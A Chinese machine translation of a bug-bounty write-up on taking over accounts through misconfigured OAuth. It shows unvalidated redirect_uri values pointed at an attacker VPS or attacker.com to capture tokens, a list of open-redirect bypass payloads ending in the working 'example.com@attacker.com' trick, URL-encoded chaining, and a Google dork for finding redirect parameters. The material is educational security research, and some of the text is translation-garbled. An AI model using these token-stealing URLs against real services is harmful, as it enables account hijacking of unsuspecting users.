

# 利用错误配置的 OAuth 接管帐户

> 原文：<https://infosecwriteups.com/exploiting-misconfigured-oauth-to-takeover-accounts-225a367bca43?source=collection_archive---------0----------------------->

嗨，在这篇文章中，我将讨论我在查找 bug 时发现的两个错误配置的 OAuth 缺陷，废话不多说，让我们开始吧。

**1)没有验证 redirect_uri 参数**

在浏览应用程序时，我注意到用户可以选择将他们的社交媒体帐户连接到应用程序，这显然是使用 OAuth 完成的。

我开始寻找 OAuth 实现中的 bug，很快发现`state`参数不见了。

对于那些不知道`state`参数的人来说，可以把它想象成一个防止 CSRF 攻击的 CSRF 令牌。

在 OAuth 的情况下，缺少`state`参数可能会导致帐户被接管。它使攻击者能够在应用程序上将他的社交媒体帐户连接到受害者的帐户，并最终接管他的帐户。

如果您不熟悉 OAuth flow，我强烈建议您先了解一下。



来源:PortSwigger

> 攻击场景
> 
> 1.攻击者在此应用程序上创建一个帐户，并通过连接其社交媒体帐户启动 OAuth 流。
> 
> 2.他允许 OAuth 提供者与客户机应用程序共享数据。
> 
> 3.OAuth 提供者用包含代码的重定向进行响应。
> 
> 4.攻击者没有使用此代码来链接其社交媒体帐户，而是保存它并将带有代码的链接发送给受害者，或者在网站上嵌入 iframe 并将链接发送给受害者。(请看流程中的第三步，一个带有代码的请求被发送到回调端点)
> 
> 5.当受害者访问该网站时，攻击者的社交媒体帐户与受害者在客户端应用程序上的帐户相链接。
> 
> 6.攻击者可以使用受害者链接的社交媒体帐户登录受害者的帐户，然后更改电子邮件或做他想做的任何事情。

我在 burp 中查看了请求的历史记录，结果发现客户端应用程序在请求中发送了一个带有令牌的自定义 auth 头，其中包含链接社交媒体帐户的代码，这使得它无法被 CSRF 攻击利用。

```
X-AUTH: 12345678909876543210
```

我寻找了所有不同社交媒体提供商的 OAuth 实现，它们都是一样的，它没有使用`state`参数，但连接帐户的最终请求有一个自定义的 Auth 头，带有一个防止 CSRF 攻击的令牌。

我从我的帐户注销，它将我重定向到登录页面，在那里我注意到用 XYZ 按钮登录，我检查了 OAuth 提供者之一上的 OAuth 实现，它被正确配置。我检查了另一个，它有一个不同的实现。它会向`api`端点(在客户端应用程序上)发送一个请求以及一个`*redirect_uri*` 参数，然后使用这个`redirect_uri`来启动 OAuth 流。

[https://client-app.com/api/oauth-provider?redirect _ uri = https://client-app . com/log in](https://client-app.com/api?redirect_uri=https://client-app.com/login)

向`redirect_uri`提供任意域名似乎有效。

[https://client-app.com/api/oauth-provider?redirect _ uri = https://attack . com](https://client-app.com/api/oauth-provider?redirect_uri=https://attacker.com)/

我登录我的 VPS 并运行 python 的`*SimpleHTTPServer*` 来检查`*redirect_uri*`参数是否可以被利用来窃取令牌

```
python -m SimpleHTTPServer 8080
```

在 python 3 中，这将是

```
python3 -m http.server 8080
```

我提供了我的 VPS 的 IP 和令牌显示在日志中

[https://client-app.com/api/](https://client-app.com/api?redirect_uri=http://123.123.123.123:8080/)oauth-providerT21？redirect _ uri = http://123 . 123 . 123 . 123:8080/

我试着用这个偷来的令牌登录，成功了！我登录了受害者的账户。

[https://client-app.com/login/{token}](https://client-app.com/login/{token})

如果你没有 VPS 或任何网站来记录进入的流量，你可以简单地使用[requestbin.com](https://requestbin.com/)来实现这些目的。

需要注意的事项:

1.  没有对`redirect_uri`参数的服务器端验证。
2.  只有当受害者与 OAuth 提供者有一个活动的会话，并且已经将他的帐户与他们链接时，这才会起作用。

**2)利用开放重定向漏洞窃取令牌**

这是在另一个应用程序上，我在寻找 OAuth 实现中的错误。在测试中，`*state*`参数，`*redirect_uri*`验证和一切似乎都没问题。

在这个应用程序上花了一些时间并浏览了其他功能后，我发现了一个引起我注意的端点，因为它有`r_url`(重定向)参数

https://example.com/endpoint/r_url/{domain

向`r_url`供应[google.com](https://google.com)

[https://example.com/endpointr_url/google.com](https://example.com/endpointr_url/google.com)将重定向至 google.com

我试图供应 attacker.com，以检查它是否重定向到 attacker.com，但它没有工作。

[https://example.com/endpoint/r_url/attacker.com](https://example.com/endpoint/r_url/attacker.com)

我试着给 example.com 供货

https://example.com/endpoint/r_url/example.com 成功了。它允许 google.com，但不允许 attacker.com

我尝试了各种技术来绕过`r_url`的验证

```
[https://example.com/endpoint/r_url](https://example.com/endpoint?r_url=)//attacker.comDidn’t work.[https://example.com/endpoint/r_url\/attacker.com](https://example.com/endpoint/r_url/attacker.com)Didn’t work.[https://example.com/endpoint/r_url\/\/attacker.com](https://example.com/endpoint/r_url/attacker.com)Didn’t work.[https://example.com/endpoint/r_url\\attacker.com](https://example.com/endpoint/r_url/attacker.com)Didn’t work.[https://example.com/endpoint/r_url/\/attacker.com](https://example.com/endpoint/r_url/attacker.com)Didn’t work.[https://example.com/endpoint/r_url/example.com.attacker.com](https://example.com/endpoint/r_url/example.com.attacker.com)Didn’t work.[https://example.com/endpoint/r_url/notexample.com](https://example.com/endpoint/r_url/notexample.com)Didn’t work.[https://example.com/endpoint/r_url/example.com@attacker.com](https://example.com/endpoint/r_url/example.com@attacker.com)This one worked and I was redirected to attacker.com.
```

现在大多数人犯的错误是他们发现开放重定向并试图报告它(大多数程序甚至不考虑它们),而不是报告开放重定向，在某个地方记下它并寻找链接它的方法。

我回去测试 OAuth 实现，它发送了一个请求，看起来像这样

[https://oauth-provider.com/login?client_id=12345678&重定向 _uri=https://example.com](https://oauth-provider.com/login?client_id=12345678&redirect_uri=https://example.com)

正如我之前测试的那样，我知道它已经正确配置并且`redirect_uri`不能被绕过，但是如果我们重定向到重定向到攻击者的域的同一应用程序上的页面呢？

这个想法是利用新发现的开放重定向漏洞，将受害者重定向到攻击者控制的域。

我试过这个。

[https://oauth-provider.com/login?client_id=12345678&redirect _ uri = https://example . com/endpoint/r _ URL/example . com @ attack . com](https://oauth-provider.com/login?client_id=12345678&redirect_uri=https://example.com/endpoint/r_url/example.com@attacker.com)

但是没有用。

编码`redirect_uri`参数值的 URL

【https://oauth-provider.com/login?client_id=12345678&T2 redirect _ uri = https % 3A % 2F % 2f example . com % 2f endpoint % 2Fr _ URL % 2f example . com % 40 attack . com

而且成功了。

我用 google dork 又找到了一个带`r_url`的端点，这个也帮我链接了。

```
site:program.com inurl:r_url
```

(提示:谷歌是你最好的朋友，明智地使用它来寻找有趣的端点/参数)

这是可能的，因为`redirect_uri`被配置为允许*** . example . com/***(example.com 上的任何页面或其子域名)

在这种情况下，开放重定向缺陷有点像帮助攻击者窃取令牌的中介或代理。

我检查了传入流量日志，发现令牌耐心地等待着我。

我希望你喜欢读这篇文章，如果你有任何问题，请随时在 Twitter @ [0xAkash](https://twitter.com/0xAkash) 上给我发信息。